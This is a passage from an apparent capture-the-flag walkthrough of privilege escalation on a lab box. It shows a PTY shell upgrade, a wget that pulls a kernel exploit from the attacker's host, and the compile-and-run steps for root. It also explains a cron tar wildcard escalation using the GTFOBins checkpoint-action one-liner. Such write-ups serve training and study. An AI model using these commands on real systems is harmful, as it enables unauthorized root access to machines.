 First things first, I upgrade my shell using the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Enter a python PTY
CTRL+Z # Background my rev shell to get back on my attacking machine
stty raw -echo; fg # Enter this on attacking machine
# Press Enter twice. This will get you back onto victim box.
export SHELL=bash && export TERM=xterm && stty rows 67 columns 125
```
Looking around I see I'm not part of any special groups, and I don't have www-data's password so I don't know what I can run with sudo. I look at `/etc/passwd` to see what user's are on the box. Sure enough, there's good old Miles. I `su milesdyson` and try the 2 passwords I have for him, and the Squirrelmail one gets me on his account. I check `sudo -l` and unfortunately, he has no sudo privileges. In his home directory is a script running as root called `backup.sh` I check `/etc/crontab` and sure enough, the script runs once a minute. 

I figure this is probably the intended priv esc method but I want to look around and see if there's another way. 

Eventually I run `linpeas.sh`, and it highlights the Linux kernel version in red. I do a `searchsploit Linux Kernel 4.8.0` and one result for Privilege Escalation looks promising. Reading the exploit, it looks like it was tested on the exact kernel this box is running! `4.8.0-58-generic #63~16.04.1-Ubuntu SMP`

![linpeas](https://user-images.githubusercontent.com/112681383/205481074-4c8e2945-fec6-4f9f-a9ad-c3ee39821523.png)
![searchsploit-kernel](https://user-images.githubusercontent.com/112681383/205481084-2e27641f-2c53-4912-b62a-0c040946d877.png)

I grab the exploit from searchsploit, download it to the victim box, compile it, execute it, and just like that it gave me a root shell.
```bash
searchsploit -m linux/local/43418.c # Attacker : Download exploit
mv  43418.c pwn.c # Attacker : Rename it for ease of use
wget http://$IP/pwn.c # Victim : move exploit to victim
gcc pwn.c -o pwn # Victim : Compile the exploit
./pwn # Victim : Run exploit, become root >:)
```
Now to be fair, this kernel exploit involves memory corruption, and is currently above my paygrade, ie, I don't really understand how it works. In the exploit code itself is a link to Rick Larabee's blog where he goes more in depth on it and it's some good reading if you're up for it: https://ricklarabee.blogspot.com/2017/12/adapting-poc-for-cve-2017-1000112-to.html

## Intended Priv Esc Method
So the script running in milesdyson's home directory is simple it's just:
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
It changes directories into `/var/www/html` and creates a `.tgz` file into Miles' home directory. Now our entry point here is that asterisk, or wildcard. It will just add whatever is in the directory to the `tar` command. On GTFOBins, there's a [one liner](https://gtfobins.github.io/gtfobins/tar/#sudo) for tar that will give root access: 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Here's how this one liner works: 
`tar -cf` tells `tar` to create an archive from one file and save it as a new file. 
The 1st `/dev/null` is the archive to be created, the 2nd `/dev/null` is the file to create an archive from. In this case `/dev/null` just points to nothing. 
`--checkpoint=1` tells tar to display progress messages for the archiving process. 
`--checkpoint-action=` tells tar what to do each time a checkpoint is reached, in this case `exec=/bin/sh`, which if `tar` is being run with root privileges, will start a `/bin/sh` shell as root.
